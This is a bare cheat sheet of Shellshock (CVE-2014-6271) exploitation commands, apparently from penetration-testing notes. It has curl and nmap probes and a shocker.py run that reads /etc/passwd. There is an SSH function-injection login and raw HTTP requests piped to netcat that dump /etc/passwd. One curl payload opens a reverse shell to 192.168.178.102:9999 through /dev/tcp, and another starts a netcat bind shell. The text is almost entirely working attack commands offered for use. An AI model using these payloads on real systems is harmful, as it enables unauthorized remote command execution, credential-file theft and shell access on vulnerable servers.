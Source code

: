 # General 

curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://10.11.1.xx/cgi-bin/admin.cgi

nmap 10.11.1.xx -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi

./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

# Shellshock via SSH
ssh -vvv
ssh -i noob noob@$ip '() { :;}; /bin/bash'

# cat file (view file contents)

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
       
curl -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.178.102/9999 0>&1" "http://192.168.178.121:80/cgi-bin/status/"

# Shellshock run bind shell using netcat

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
